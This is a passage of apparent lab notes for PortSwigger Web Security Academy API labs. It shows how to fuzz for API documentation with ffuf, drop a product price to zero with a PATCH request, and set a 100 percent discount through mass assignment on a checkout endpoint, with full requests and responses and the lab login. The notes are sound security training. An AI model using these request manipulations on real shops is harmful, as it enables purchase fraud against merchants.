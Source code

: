 5. Submitting `PATCH` request tells us that only JSON is supported in the HTTP body, send a request doing so
	1. Submitting with empty body returns 500 error
6. Provide the "price" key in the JSON body to control the cost
```http
# Request
PATCH /api/products/1/price
Content-Type: application/json

{"price":1}

# Response
HTTP/2 200 OK

{"price":"$0.01"}
```
7. Controlling the price, set it to zero
8. Purchase a "l33t" jacket
# Exploiting a mass assignment vulnerability
- Exploit mass assignment to buy a **lightweight l33t leather jacket**
- Login using `wiener:peter`
1. Authenticate
2. Use `ffuf` to discover `/api` endpoint
```sh
ffuf -u https://0ae3005403eec13d81922a4e00d10085.web-security-academy.net/FUZZ -w wordlists/API/api-documentation-endpoint1.txt
```
- Wordlist from [here](https://github.com/z5jt/API-documentation-Wordlist/blob/main/API-Documentation-Wordlist/api-documentation-endpoint1.txt)
3. `/api` discloses a POST and GET `/checkout` endpoint
- GET
```HTTP
# Response
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8

{"chosen_discount":{"percentage":0},"chosen_products":[]}
```
- POST
```http
# Request
POST /api/checkout

{"chosen_products":[]}

# Response
HTTP/2 201 Created
Location: /cart/order-confirmation?order-confirmed=true
```
4. Add a "l33t" jacket to the cart
5. Go back to the `/api/checkout` endpoint and send the GET request and copy the JSON body
```json
{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
```
6. Make a POST request to the `/api/checkout` endpoint using the JSON body from above and change the discount percentage to `100`
```JSON
{"chosen_discount":{"percentage":100},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
```
- Response from server
```http
HTTP/2 201 Created
Location: /cart/order-confirmation?order-confirmed=true
```